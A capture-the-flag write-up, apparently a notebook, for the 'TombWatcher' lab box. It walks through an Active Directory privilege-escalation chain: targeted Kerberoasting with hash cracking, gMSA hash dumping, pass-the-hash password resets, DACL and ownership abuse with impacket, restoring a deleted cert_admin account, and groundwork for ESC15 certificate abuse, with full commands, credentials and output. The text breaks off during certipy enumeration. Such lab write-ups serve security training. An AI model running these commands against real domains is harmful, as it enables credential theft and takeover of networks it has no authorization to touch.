


# week4-tombwatcher

## Engagement Notes
As is common in real life Windows pentests, you will start the TombWatcher box with credentials for the following account: henry / H3nry_987TGV!

This box starts with a rabbit hole with IIS, but ultimately has enough permissions with henry in the open ldap ports to use bloodhound and rpc commands. With the bloodhound dump we can see a clear target chain through various users from henry to john.

After following the bouncing bloodhound-ball with each step, we can start to enumerate with John and their access with the ADCS OU. Bloodhound showed how to take over the OU with inheritence so John will become owner of all nested objects, as well as the permission to restore deleted items as owner of the OU.

Restoring the tombstoned cert_admin user with John we can now generate an ESC15 workflow to use cert_admin to add the administrator as the subject for a cert request. However, we cannot simply use the webserver template to which cert_admin has special rights. We ultimately must use an outdated openssl library to use ldap-shell with which we can give John a promotion to the administrators group and get the flag.

# Enumeration

### Set variables for further engagement


```python
import requests
from pprint import pprint

source =! ip address | grep tun | grep 10 | tr "/" " " | awk '{print $2}'
public_source = requests.get('https://ifconfig.co/ip').text
target = 'tombwatcher.htb'

print(f"source: {source}")
print(f"target: {target}")
```

    source: ['10.10.14.36']
    target: tombwatcher.htb


### Port scan target


```python
!docker run -it --rm -v $(pwd):/app/target rustscan -a $target
```

    Port scanning: Because every port has a story to tell.
    
    [~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
    [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
    [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
    Open 10.129.6.179:80
    Open 10.129.6.179:88
    Open 10.129.6.179:135
    Open 10.129.6.179:139
    Open 10.129.6.179:389
    Open 10.129.6.179:445
    Open 10.129.6.179:464
    Open 10.129.6.179:53
    Open 10.129.6.179:593
    Open 10.129.6.179:636
    Open 10.129.6.179:3268
    Open 10.129.6.179:3269
    Open 10.129.6.179:5985
    Open 10.129.6.179:9389
    ^C


We find an IIS service and many AD related ports in our scan.

### URL scan target


```python
!gobuster dir -u http://$target -w $(wordlists_path)/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -x txt,js,html,php -t 40 --timeout=6s -o gobuster-task.txt --retry
```

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://tombwatcher.htb
    [+] Method:                  GET
    [+] Threads:                 40
    [+] Wordlist:                /nix/store/khjvbjjz3yazpgln3qb9nykyf4ypahcm-wordlists-collection/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Extensions:              txt,js,html,php
    [+] Timeout:                 6s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /*checkout*           (Status: 400) [Size: 3420]
    Progress: 43487 / 408220 (10.65%)^C
    
    [!] Keyboard interrupt detected, terminating.
    Progress: 43567 / 408220 (10.67%)
    ===============================================================
    Finished
    ===============================================================


```python
!gobuster vhost -u http://$target -w $(wordlists_path)/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 40 --append-domain
```

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:             http://tombwatcher.htb
    [+] Method:          GET
    [+] Threads:         40
    [+] Wordlist:        /nix/store/khjvbjjz3yazpgln3qb9nykyf4ypahcm-wordlists-collection/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
    [+] User Agent:      gobuster/3.6
    [+] Timeout:         10s
    [+] Append Domain:   true
    ===============================================================
    Starting gobuster in VHOST enumeration mode
    ===============================================================
    Progress: 16276 / 114442 (14.22%)[ERROR] Get "http://tombwatcher.htb/": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
    Found: xn--nckxa3g7cq2b5304djmxc-biz.tombwatcher.htb Status: 400 [Size: 334]
    Found: xn--cckcdp5nyc8g2837ahhi954c-jp.tombwatcher.htb Status: 400 [Size: 334]
    Found: xn--7ck2d4a8083aybt3yv-com.tombwatcher.htb Status: 400 [Size: 334]
    Found: xn--u9jxfma8gra4a5989bhzh976brkn72bo46f-com.tombwatcher.htb Status: 400 [Size: 334]
    Found: xn--y8jvc027l5cav97szrms90clsb-com.tombwatcher.htb Status: 400 [Size: 334]
    Found: xn--t8j3b111p8cgqtb3v9a8tm35k-jp.tombwatcher.htb Status: 400 [Size: 334]
    ...<snip>
    Found: xn--akb-fu0e63gwsk9wi4dt38bp4bk6ivrnww8e2uwcils-com.tombwatcher.htb Status: 400 [Size: 334]
    Found: xn--3kqu3oh0b77g34dt2lxzn4mre5ohlvlx1c-com.tombwatcher.htb Status: 400 [Size: 334]
    Progress: 97883 / 114442 (85.53%)^C
    
    [!] Keyboard interrupt detected, terminating.
    Progress: 97955 / 114442 (85.59%)
    ===============================================================
    Finished
    ===============================================================


So much of this comes back as plain 400s. Browsing to the site shows just an IIS landing page with no real functionality. We might have to come back to this.

## Windows

From our earlier engagements this season, we're goign to jump right into using lots of bloodhound.

### Start Bloodhound


```python
!mkdir -p ./bloodhounddumps
!docker compose --project-directory ~/.local/build/programs/bloodhound --progress quiet down --volumes
!docker compose --project-directory ~/.local/build/programs/bloodhound --progress quiet up -d
print("Connect to bloodhound now at http://localhost:8080 with username 'admin' password 'bloodhound'")
print("To reset the entire instance, do docker compose down --volumes")
```

    Connect to bloodhound now at http://localhost:8080 with username 'admin' password 'bloodhound'
    To reset the entire instance, do docker compose down --volumes


```python
domain = target.split(".")[0]
domain_spn = ','.join([f"dc={dc}," for dc in target.split(".")])
initialuser = "henry"
initialpassword = "H3nry_987TGV!"
```

### Enumerate

And by now we've got our standard windows enumeration flow.


```python
!enum4linux-ng $target -u $initialuser -p $initialpassword
```

    ENUM4LINUX - next generation (v1.3.4)
    
     ==========================
    |    Target Information    |
     ==========================
    [*] Target ........... tombwatcher.htb
    [*] Username ......... 'henry'
    [*] Random Username .. 'zkbhenlu'
    [*] Password ......... 'H3nry_987TGV!'
    [*] Timeout .......... 5 second(s)
    
     ========================================
    |    Listener Scan on tombwatcher.htb    |
     ========================================
    [*] Checking LDAP
    [+] LDAP is accessible on 389/tcp
    [*] Checking LDAPS
    [+] LDAPS is accessible on 636/tcp
    [*] Checking SMB
    [+] SMB is accessible on 445/tcp
    [*] Checking SMB over NetBIOS
    [+] SMB over NetBIOS is accessible on 139/tcp
    
     =======================================================
    |    Domain Information via LDAP for tombwatcher.htb    |
     =======================================================
    [*] Trying LDAP
    [+] Appears to be root/parent DC
    [+] Long domain name is: tombwatcher.htb
    
     ==============================================================
    |    NetBIOS Names and Workgroup/Domain for tombwatcher.htb    |
     ==============================================================
    [-] Could not get NetBIOS names information via 'nmblookup': timed out
    
     ============================================
    |    SMB Dialect Check on tombwatcher.htb    |
     ============================================
    [*] Trying on 445/tcp
    [+] Supported dialects and settings:
    Supported dialects:
      SMB 1.0: false
      SMB 2.02: true
      SMB 2.1: true
      SMB 3.0: true
      SMB 3.1.1: true
    Preferred dialect: SMB 3.0
    SMB1 only: false
    SMB signing required: true
    
     ==============================================================
    |    Domain Information via SMB session for tombwatcher.htb    |
     ==============================================================
    [*] Enumerating via unauthenticated SMB session on 445/tcp
    [+] Found domain information via SMB
    NetBIOS computer name: DC01
    NetBIOS domain name: TOMBWATCHER
    DNS domain: tombwatcher.htb
    FQDN: DC01.tombwatcher.htb
    Derived membership: domain member
    Derived domain: TOMBWATCHER
    
     ============================================
    |    RPC Session Check on tombwatcher.htb    |
     ============================================
    [*] Check for null session
    [+] Server allows session using username '', password ''
    [*] Check for user session
    [+] Server allows session using username 'henry', password 'H3nry_987TGV!'
    [*] Check for random user
    [-] Could not establish random user session: STATUS_LOGON_FAILURE
    
     ======================================================
    |    Domain Information via RPC for tombwatcher.htb    |
     ======================================================
    [+] Domain: TOMBWATCHER
    [+] Domain SID: S-1-5-21-1392491010-1358638721-2126982587
    [+] Membership: domain member
    
     ==================================================
    |    OS Information via RPC for tombwatcher.htb    |
     ==================================================
    [*] Enumerating via unauthenticated SMB session on 445/tcp
    [+] Found OS information via SMB
    [*] Enumerating via 'srvinfo'
    [+] Found OS information via 'srvinfo'
    [+] After merging OS information we have the following result:
    OS: Windows 10, Windows Server 2019, Windows Server 2016
    OS version: '10.0'
    OS release: '1809'
    OS build: '17763'
    Native OS: not supported
    Native LAN manager: not supported
    Platform id: '500'
    Server type: '0x80102b'
    Server type string: Sv PDC Tim NT
    
     ========================================
    |    Users via RPC on tombwatcher.htb    |
     ========================================
    [*] Enumerating users via 'querydispinfo'
    [+] Found 7 user(s) via 'querydispinfo'
    [*] Enumerating users via 'enumdomusers'
    [+] Found 7 user(s) via 'enumdomusers'
    [+] After merging user results we have 7 user(s) total:
    '1103':
      username: Henry
      name: (null)
      acb: '0x00000210'
      description: (null)
    '1104':
      username: Alfred
      name: (null)
      acb: '0x00000210'
      description: (null)
    '1105':
      username: sam
      name: (null)
      acb: '0x00000210'
      description: (null)
    '1106':
      username: john
      name: (null)
      acb: '0x00000210'
      description: (null)
    '500':
      username: Administrator
      name: (null)
      acb: '0x00000210'
      description: Built-in account for administering the computer/domain
    '501':
      username: Guest
      name: (null)
      acb: '0x00000215'
      description: Built-in account for guest access to the computer/domain
    '502':
      username: krbtgt
      name: (null)
      acb: '0x00000011'
      description: Key Distribution Center Service Account
    
     =========================================
    |    Groups via RPC on tombwatcher.htb    |
     =========================================
    [*] Enumerating local groups
    [+] Found 5 group(s) via 'enumalsgroups domain'
    [*] Enumerating builtin groups
    [+] Found 28 group(s) via 'enumalsgroups builtin'
    [*] Enumerating domain groups
    [+] Found 16 group(s) via 'enumdomgroups'
    [+] After merging groups results we have 49 group(s) total:
    '1101':
      groupname: DnsAdmins
      type: local
    '1102':
      groupname: DnsUpdateProxy
      type: domain
    '1107':
      groupname: Infrastructure
      type: domain
    '498':
      groupname: Enterprise Read-only Domain Controllers
      type: domain
    '512':
      groupname: Domain Admins
      type: domain
    '513':
      groupname: Domain Users
      type: domain
    '514':
      groupname: Domain Guests
      type: domain
    '515':
      groupname: Domain Computers
      type: domain
    '516':
      groupname: Domain Controllers
      type: domain
    '517':
      groupname: Cert Publishers
      type: local
    '518':
      groupname: Schema Admins
      type: domain
    '519':
      groupname: Enterprise Admins
      type: domain
    '520':
      groupname: Group Policy Creator Owners
      type: domain
    '521':
      groupname: Read-only Domain Controllers
      type: domain
    '522':
      groupname: Cloneable Domain Controllers
      type: domain
    '525':
      groupname: Protected Users
      type: domain
    '526':
      groupname: Key Admins
      type: domain
    '527':
      groupname: Enterprise Key Admins
      type: domain
    '544':
      groupname: Administrators
      type: builtin
    '545':
      groupname: Users
      type: builtin
    '546':
      groupname: Guests
      type: builtin
    '548':
      groupname: Account Operators
      type: builtin
    '549':
      groupname: Server Operators
      type: builtin
    '550':
      groupname: Print Operators
      type: builtin
    '551':
      groupname: Backup Operators
      type: builtin
    '552':
      groupname: Replicator
      type: builtin
    '553':
      groupname: RAS and IAS Servers
      type: local
    '554':
      groupname: Pre-Windows 2000 Compatible Access
      type: builtin
    '555':
      groupname: Remote Desktop Users
      type: builtin
    '556':
      groupname: Network Configuration Operators
      type: builtin
    '557':
      groupname: Incoming Forest Trust Builders
      type: builtin
    '558':
      groupname: Performance Monitor Users
      type: builtin
    '559':
      groupname: Performance Log Users
      type: builtin
    '560':
      groupname: Windows Authorization Access Group
      type: builtin
    '561':
      groupname: Terminal Server License Servers
      type: builtin
    '562':
      groupname: Distributed COM Users
      type: builtin
    '568':
      groupname: IIS_IUSRS
      type: builtin
    '569':
      groupname: Cryptographic Operators
      type: builtin
    '571':
      groupname: Allowed RODC Password Replication Group
      type: local
    '572':
      groupname: Denied RODC Password Replication Group
      type: local
    '573':
      groupname: Event Log Readers
      type: builtin
    '574':
      groupname: Certificate Service DCOM Access
      type: builtin
    '575':
      groupname: RDS Remote Access Servers
      type: builtin
    '576':
      groupname: RDS Endpoint Servers
      type: builtin
    '577':
      groupname: RDS Management Servers
      type: builtin
    '578':
      groupname: Hyper-V Administrators
      type: builtin
    '579':
      groupname: Access Control Assistance Operators
      type: builtin
    '580':
      groupname: Remote Management Users
      type: builtin
    '582':
      groupname: Storage Replica Administrators
      type: builtin
    
     =========================================
    |    Shares via RPC on tombwatcher.htb    |
     =========================================
    [*] Enumerating shares
    [+] Found 5 share(s):
    ADMIN$:
      comment: Remote Admin
      type: Disk
    C$:
      comment: Default share
      type: Disk
    IPC$:
      comment: Remote IPC
      type: IPC
    NETLOGON:
      comment: Logon server share
      type: Disk
    SYSVOL:
      comment: Logon server share
      type: Disk
    [*] Testing share ADMIN$
    [+] Mapping: DENIED, Listing: N/A
    [*] Testing share C$
    [+] Mapping: DENIED, Listing: N/A
    [*] Testing share IPC$
    [+] Mapping: OK, Listing: NOT SUPPORTED
    [*] Testing share NETLOGON
    [+] Mapping: OK, Listing: OK
    [*] Testing share SYSVOL
    [+] Mapping: OK, Listing: OK
    
     ============================================
    |    Policies via RPC for tombwatcher.htb    |
     ============================================
    [*] Trying port 445/tcp
    [+] Found policy:
    Domain password information:
      Password history length: 24
      Minimum password length: 1
      Maximum password age: not set
      Password properties:
      - DOMAIN_PASSWORD_COMPLEX: false
      - DOMAIN_PASSWORD_NO_ANON_CHANGE: false
      - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
      - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false
      - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false
      - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false
    Domain lockout information:
      Lockout observation window: 30 minutes
      Lockout duration: 30 minutes
      Lockout threshold: None
    Domain logoff information:
      Force logoff time: not set
    
     ============================================
    |    Printers via RPC for tombwatcher.htb    |
     ============================================
    [+] No printers available
    
    Completed after 35.07 seconds


```python
!smbclient -L //$target -W $domain -U henry%`H3nry_987TGV!`
```

    zsh:1: command not found: H3nry_987TGV!
    Can't load /etc/samba/smb.conf - run testparm to debug it
    session setup failed: NT_STATUS_LOGON_FAILURE


```python
!bloodhound-python -u $initialuser -p $initialpassword -d tombwatcher.htb -dc $target -c All
```

    INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
    WARNING: Could not find a global catalog server, assuming the primary DC has this role
    If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
    INFO: Getting TGT for user
    INFO: Connecting to LDAP server: tombwatcher.htb
    WARNING: Kerberos auth to LDAP failed, trying NTLM
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: tombwatcher.htb
    WARNING: Kerberos auth to LDAP failed, trying NTLM
    INFO: Found 9 users
    INFO: Found 53 groups
    INFO: Found 2 gpos
    INFO: Found 2 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: DC01.tombwatcher.htb
    INFO: Done in 00M 21S




Looks like we have a very clear escalation path from henry to john. Bloodhound gives us all the summary commands we need to exploit each permission along the way until we can get to where we're going, so what follows is a quick summary of getting to that point.


```python
!python targetedKerberoast/targetedKerberoast.py -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'
```

    [*] Starting kerberoast attacks
    [*] Fetching usernames from Active Directory with LDAP
    [VERBOSE] SPN added successfully for (Alfred)
    [+] Printing hash for (Alfred)
    $krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$81fe7b799f1d2dbb4f1bd077f510<snip>d9f49a0eb8d64750f67148695d7b0b39d
    [VERBOSE] SPN removed successfully for (Alfred)


```sh
 hashcat -m 13100 henry.hash $(wordlists_path)/rockyou.txt
hashcat (6.2.6) starting

Failed to initialize the NVIDIA main driver CUDA runtime library.

Failed to initialize NVIDIA RTC library.

* Device #1: CUDA SDK Toolkit not installed or incorrectly installed.
             CUDA SDK Toolkit required for proper device support and utilization.
             Falling back to OpenCL runtime.

OpenCL API (OpenCL 3.0 CUDA 12.9.40) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #1: NVIDIA GeForce RTX 3090, 21888/24123 MB (6030 MB allocatable), 82MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 720 MB

Dictionary cache hit:
* Filename..: /nix/store/khjvbjjz3yazpgln3qb9nykyf4ypahcm-wordlists-collection/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$81fe7b799f1d2dbb4f1bd077f510f8eb$8fcf<snip>0eb8d64750f67148695d7b0b39d:basketball

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb...b0b39d
Time.Started.....: Sat Jun  7 20:24:04 2025 (1 sec)
Time.Estimated...: Sat Jun  7 20:24:05 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/nix/store/khjvbjjz3yazpgln3qb9nykyf4ypahcm-wordlists-collection/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   166.7 MH/s (5.86ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2686976/14344384 (18.73%)
Rejected.........: 0/2686976 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> xamuraix

Started: Sat Jun  7 20:24:03 2025
Stopped: Sat Jun  7 20:24:05 2025
```


With a password, we can continue our exploits through AD

I did try to do this with net rpc, but ultimately needed to use bloodyAD to get alfred added properly.

```sh
root@ab98bfeade9f:/# bloodyAD --host tombwatcher.htb -d tombwatcher -u alfred -p basketball add groupMember infrastructure alfred
[+] alfred added to infrastructure

Then dump the hash for ansible_dev.


```python
!python gMSADumper/gMSADumper.py -u alfred -p basketball -d tombwatcher.htb -d $target
```

    Users or groups who can read password for ansible_dev$:
     > Infrastructure
    ansible_dev$:::1c37d00093dc2a5f25176bf2d474afdc
    ansible_dev$:aes256-cts-hmac-sha1-96:526688ad2b7ead7566b70184c518ef665cc4c0215a1d634ef5f5bcda6543b5b3
    ansible_dev$:aes128-cts-hmac-sha1-96:91366223f82cd8d39b0e767f0061fd9a


Then use ansible_dev to reset sam's password to log into sam.

```sh
┌──(root㉿5888b0a15c0f)-[/bin]
└─# pth-net rpc password "sam" "Password1234!" -U "tombwatcher"/"ansible_dev$"%"ffffffffffffffffffffffffffffffff:1c37d00093dc2a5f25176bf2d474afdc" -S "tombwatcher.htb"
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...

Finally using sam, use the dacl permissions to add full control over john.

```sh
/opt/venv/bin # owneredit.py -action write -new-owner 'sam' -target 'john' 'tombwatcher.htb/sam':'Password1234!'
Impacket v0.13.0.dev0+20250109.91705.ac02e0e - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=tombwatcher,DC=htb
[*] OwnerSid modified successfully!

```sh
/opt/venv/bin # dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'Password1234!'
Impacket v0.13.0.dev0+20250109.91705.ac02e0e - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250608-080615.bak
[*] DACL modified successfully!


```python
!net rpc password "john" "Password1234!" -U "tombwatcher.htb"/"sam"%"Password1234!" -S "tombwatcher.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it


And now we're in the box.

## Foothold

```sh
*Evil-WinRM* PS C:\Users\john\Desktop> whoami /all

USER INFORMATION
----------------

User Name        SID
================ ==============================================
tombwatcher\john S-1-5-21-1392491010-1358638721-2126982587-1106


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.


```python
!certipy find -u 'john@tombwatcher.htb' -p 'Password1234!' -dc-ip 10.129.6.179 -vulnerable -enabled -stdout
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 33 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 11 enabled certificate templates
    [*] Trying to get CA configuration for 'tombwatcher-CA-1' via CSRA
    [!] Got error while trying to get CA configuration for 'tombwatcher-CA-1' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'tombwatcher-CA-1' via RRP
    [*] Got CA configuration for 'tombwatcher-CA-1'
    [*] Enumeration output:
    Certificate Authorities
      0
        CA Name                             : tombwatcher-CA-1
        DNS Name                            : DC01.tombwatcher.htb
        Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
        Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
        Certificate Validity Start          : 2024-11-16 00:47:48+00:00
        Certificate Validity End            : 2123-11-16 00:57:48+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
          Owner                             : TOMBWATCHER.HTB\Administrators
          Access Rights
            ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                              TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            ManageCa                        : TOMBWATCHER.HTB\Administrators
                                              TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Enroll                          : TOMBWATCHER.HTB\Authenticated Users
    Certificate Templates                   : [!] Could not find any certificate templates


Certipy didn't find anythign this time, so we have some sleuthing to do to better understand what John can do. We find that John has the permission to give full control over ADCS via more bloodhound output.

```sh
/opt/venv/bin # dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Password1234!'
Impacket v0.13.0.dev0+20250109.91705.ac02e0e - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250608-081550.bak
[*] DACL modified successfully!
```
And while we're at the useless edit, we can see something interesting in the validation step: ACE control over the namesake of the challenge "Reanimate-Tombstones".

I didn't know this before this challenge, but when you delete objects in AD, there's a window of time where they still exist in a recycle-bin-of-sorts. With this tombstone reanimation permission, we can restore these AD objects.

What we'll see in the following steps is the recovery of a certificate service manager account that DOES have access to some weak certificate templates that we'll abuse later. We'll also learn that it's important to manage permissions of your tools effectively to account for the newest of exploits.

```sh
/opt/venv/bin # dacledit.py -action 'read' -principal john -target-dn 'DC=tombwatcher,DC=htb' 'tombwatcher.htb'/'john':'Password1234!'
Impacket v0.13.0.dev0+20250109.91705.ac02e0e - Copyright Fortra, LLC and its affiliated companies 

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-1392491010-1358638721-2126982587-1106)
[*]   ACE[12] info                
[*]     ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]     ACE flags                 : None
[*]     Access mask               : ControlAccess
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : Reanimate-Tombstones (45ec5156-db7e-47bb-b53f-dbeb2d03c40f)
[*]     Trustee (SID)             : john (S-1-5-21-1392491010-1358638721-2126982587-1106)

```sh
*Evil-WinRM* PS C:\>  import-module activedirectory

*Evil-WinRM* PS C:\Users\John\Desktop> Get-ADObject -Filter 'isdeleted -eq $TRUE -and name -ne "Deleted Objects"' -IncludeDeletedObjects -Properties * | `Format-List cn,samAccountName,displayName,lastknownParent,whenchanged


cn              : cert_admin
                  DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
samAccountName  : cert_admin
displayName     :
lastknownParent : OU=ADCS,DC=tombwatcher,DC=htb
whenchanged     : 11/15/2024 7:57:59 PM

cn              : cert_admin
                  DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
samAccountName  : cert_admin
displayName     :
lastknownParent : OU=ADCS,DC=tombwatcher,DC=htb
whenchanged     : 11/16/2024 12:04:21 PM

cn              : cert_admin
                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
samAccountName  : cert_admin
displayName     :
lastknownParent : OU=ADCS,DC=tombwatcher,DC=htb
whenchanged     : 11/16/2024 12:07:27 PM

*Evil-WinRM* PS C:\Users\John\Desktop> restore-adobject -identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf


```python
!net rpc password "cert_admin" "Password1234!" -U "tombwatcher.htb"/"john"%"Password1234!" -S "tombwatcher.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it


It doesn't find the ESC15 vuln because the version of certipy used for this command is the older 4.8 and not the bleeding 5.0.2 I use in a container to exploit it


```python
!certipy find -u 'cert_admin@tombwatcher.htb' -p 'Password1234!' -dc-ip 10.129.6.179 -enabled -stdout
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 33 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 11 enabled certificate templates
    [*] Trying to get CA configuration for 'tombwatcher-CA-1' via CSRA
    [!] Got error while trying to get CA configuration for 'tombwatcher-CA-1' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'tombwatcher-CA-1' via RRP
    [*] Got CA configuration for 'tombwatcher-CA-1'
    [*] Enumeration output:
    Certificate Authorities
      0
        CA Name                             : tombwatcher-CA-1
        DNS Name                            : DC01.tombwatcher.htb
        Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
        Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
        Certificate Validity Start          : 2024-11-16 00:47:48+00:00
        Certificate Validity End            : 2123-11-16 00:57:48+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
          Owner                             : TOMBWATCHER.HTB\Administrators
          Access Rights
            ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                              TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
